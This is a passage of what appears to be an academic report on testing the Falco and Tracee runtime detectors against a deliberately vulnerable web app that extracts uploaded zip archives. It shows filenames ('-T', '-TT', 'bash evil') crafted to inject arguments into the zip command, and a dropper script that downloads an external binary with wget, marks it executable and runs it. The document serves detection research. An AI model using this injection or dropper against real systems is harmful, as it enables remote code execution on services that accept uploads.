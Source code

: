 \section{Attacks in the Scenario}
\label{sec:attacks}

As introduced in the previous chapter, the web application allows users to simulate realistic attack scenarios because it is possible to upload and unzip folders containing scripts that are neither sanitized nor validated.  In this section, we use it to launch attacks such as command injection, reverse shells and the use of \texttt{ptrace}. For each tool, we report only the most relevant portion of the logs that are obtained using the following instructions:

\texttt{bash falco-conf/falco-logs.sh}

\texttt{bash tracee-conf/tracee-logs.sh}


\subsection{Attack Implementation}
The attack payloads are packaged in zip folders that contain files such as:
\begin{verbatim}
-T
-TT
bash evil
evil
\end{verbatim}
These filenames were intentionally chosen. The files named \texttt{-T} and \texttt{-TT} correspond to command-line options used by the \texttt{zip} utility: the first one allows testing the archive for integrity while the second one specifies a custom test command to run after the creation of the archive. The name \texttt{bash evil} is intentionally crafted to mimic a shell command rather than a typical filename. This command would instruct the system to use the Bash shell to execute a file named evil.
The file named \texttt{evil} is an executable file and it contains a malicious Bash script designed to execute the attacks.


\subsection{Dropped Executable}
The dropped executable attack involves that involves executing arbitrary commands on the host operating system through a vulnerable application.
The following is the content of the \texttt{evil} script:
\begin{verbatim}
#!/bin/bash
apt-get install wget
wget https://busybox.net/downloads/binaries/1.21.1/busybox-i686
chmod +x busybox-i686
./busybox-i686 echo "BOOM — upper layer binary executed"
\end{verbatim}
Once the folder is uploaded and extracted, its structure allows for the execution of the \texttt{evil} script. The \texttt{wget} command is used to download the external binary.


